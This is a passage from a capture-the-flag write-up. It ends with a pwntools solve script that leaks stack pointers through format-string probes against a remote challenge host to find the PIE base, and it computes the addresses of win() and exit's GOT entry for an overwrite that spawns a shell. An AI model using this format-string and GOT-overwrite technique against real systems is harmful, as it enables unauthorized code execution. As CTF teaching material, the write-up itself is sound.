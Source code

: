 Then choose `2) exit`. The program resolves `exit()` via the GOT we just patched and jumps into `win()` → `/bin/sh`.

---

## Final solve script (used on remote)

```python
#!/usr/bin/env python3
from pwn import *
import re

HOST = args.HOST or "ctf.ac.upt.ro"
PORT = int(args.PORT or 9847)   # your instance port
BIN_PATH = args.BIN or "./challenge"

context.arch = "amd64"
context.os = "linux"
context.log_level = args.LOG_LEVEL or "info"

elf = ELF(BIN_PATH, checksec=False)
WIN_OFF      = elf.sym["win"]
EXIT_GOT_OFF = elf.got["exit"]
TEXT_OFF     = elf.get_section_by_name(".text").header.sh_addr
MAIN_OFF     = elf.sym["main"]

PIE_PREFIXES = {0x55, 0x56, 0x57, 0x50, 0x52}

def base_from_ptr(v):
    for off in (TEXT_OFF, MAIN_OFF, WIN_OFF):
        base = v - off
        if (base & 0xfff) == 0 and (base >> 40) in PIE_PREFIXES:
            return base
    return None

def try_index(idx):
    io = remote(HOST, PORT)
    io.recvuntil(b"What's your name?")
    io.sendline(f"%{idx}$p|END".encode())
    data = io.recvuntil(b"!\n", timeout=3)
    m = re.search(r"(0x[0-9a-fA-F]+)\|END", data.decode(errors="ignore"))
    if not m:
        io.close(); return None, None
    ptr = int(m.group(1), 16)
    base = base_from_ptr(ptr)
    if not base:
        io.close(); return None, None
    return io, base

def main():
    io = None; base = None
    for i in range(4, 64):
        log.info(f"Trying stack index %{i}$p …")
        io, base = try_index(i)
        if io and base:
            log.success(f"PIE base @ {hex(base)} (index {i})")
            break
    if not io:
        log.failure("Could not derive PIE base."); return

    win      = base + WIN_OFF
    exit_got = base + EXIT_GOT_OFF
    log.info(f"win        @ {hex(win)}")
    log.info(f"exit@GOT   @ {hex(exit_got)}")
```